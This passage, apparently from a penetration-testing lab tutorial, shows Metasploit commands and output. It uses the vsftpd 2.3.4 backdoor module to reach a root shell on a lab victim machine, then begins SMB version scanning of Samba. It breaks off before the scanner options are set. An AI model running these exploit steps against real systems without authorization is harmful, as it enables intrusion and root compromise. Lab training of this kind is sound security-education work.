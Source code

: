You can access this session anytime using the `sessions` command:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions
```

```
Active sessions
===============

  Id  Name  Type            Information  Connection
  ‐‐  ‐‐‐‐  ‐‐‐‐            ‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐
  2         shell cmd/unix               0.0.0.0:0 -> 192.168.74.129:6200 (192.168.74.129)
```

You can get back to the session by using the “-i” flag and specifying the ID. Do the following –

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -i 2
[*] Starting interaction with 2...

whoami
root
```

#### Exploiting samba smb <a href="#post-3536-_heading-h.41mghml" id="post-3536-_heading-h.41mghml"></a>

Did you notice that the `netbios-ssn` service was running on Samba in our victim machine’s port `139` and `445`? There might be an exploit that we could use. But before that, there was no particular version written for the samba application. However, we have an auxiliary module in Metasploit that can find out the version for us. Let’s see this in action:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > search smb_version
```

```
Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   ‐  ‐‐‐‐                               ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐    ‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   0  auxiliary/scanner/smb/smb_version                   normal  No     SMB Version Detection


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smb/smb_version
```

Now choose the smb scanner:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use 0
msf6 auxiliary(scanner/smb/smb_version) > 
```

Now let’s see the options we have to set up:
